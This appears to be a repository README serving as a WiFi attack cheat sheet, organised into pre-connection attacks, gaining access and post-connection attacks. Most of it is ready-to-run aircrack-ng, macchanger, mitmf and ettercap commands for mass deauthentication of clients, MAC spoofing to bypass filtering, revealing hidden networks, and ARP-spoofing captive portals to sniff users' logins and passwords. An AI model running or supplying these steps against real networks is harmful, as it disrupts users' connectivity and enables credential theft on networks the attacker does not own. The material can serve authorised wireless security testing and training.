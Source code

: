                                       __        ___  __ _   ____            _            _   
                                      \ \      / (_)/ _(_) |  _ \ ___ _ __ | |_ ___  ___| |_ 
                                       \ \ /\ / /| | |_| | | |_) / _ \ '_ \| __/ _ \/ __| __|
                                        \ V  V / | |  _| | |  __/  __/ | | | ||  __/\__ \ |_ 
                                         \_/\_/  |_|_| |_| |_|   \___|_| |_|\__\___||___/\__|                           
                                          Pre-connection Attacks
                                          Gaining Access
                                          Post-connection Attacks]
Other links:
https://github.com/0x90/wifi-arsenal

## WiFi Bands
-----------
● Decides the frequency range that can be used. 
● Determines the channels that can be used. 
● Clients need to support band used by router to communicate with it. 
● Data can be sniffed from a certain band if the wireless adapter used supports that band.

● Most common WiFi Bands are: 
 ○ a uses 5 Ghz frequency only. 
 ○ b, g both use 2.4 Ghz frequency only. 
 ○ n uses 5 and 2.4 Ghz. 
 ○ ac uses frequencies lower than 6 Gh
 
Enabling monitor mode
----------------------
>iwconfig
>airmon-ng check kill  
>airmon-ng start wlan1 
>airodump-ng wlan1mon 
or
>airodump-ng --band a wlan1mon (show all type of wifi networks)

Pre-connection Attacks
-----------------------
 1.Mac address changing
 2.Deauthenticating All Clients From Protected WiFi Network
 3.Deauthenticating a Client From Protected WiFi Networks
    mac changing
    ............
    ifconfig wlan0 down
    ifconfig wlan0 hw ether 00:ff:ff:ff:44:55
    ifconfig wlan0 up
    ifconfig wlan0

    Deauthenticating All Clients From Protected WiFi Network
    ........................................................
    airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0

    Deauthenticating a Client From Protected WiFi Networks
    ......................................................
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

Gaining Access
---------------
1.Find SSID of hidden networks
2.Bypass mac filtering
3.To gain access to
  - Captive portals
  - WEP
  - WPA
  - WPA 2
  - WPA/WPA2 Enterpise
4.Fake Access Point

  Discovering Names of Hidden Networks
  .....................................
    airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
    airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

  Bypassing Mac Filtering (Blacklists & Whitelists)
  ..................................................
    ifconfig wlan0 down
    macchanger -m 22:dd:33:44:55:66 wlan0

  Bypassing Captive portals
  ..........................
     1.Change mac address to one of a connencted client.
     2.Sniff logins in monitor mode.
       - Since captive portals are OPEN.
       - IE: they do not use encryption.
       - We can sniff data sent to/from it using airodump-ng
       - Then use WIRESHARK to read this data including passwords.
     3.Create a fake AP, ask users to login.
     4.Connect and sniff logins after running an arp spoofing attack.
       - Since captive portal are open.
       - Therefore we can connect to the target without a password.
       - We can then run a normal arp spoofing attack.
       = clients will autoatically lose their connection and will be asked to login again.
       = Dta sent to/from router including passwords will be directed to us.
mitmf --arp --spoof -i wlan0 --gateway 192.168.10.1
ettercap -Tq -M arp:remote -i wlan0 ///

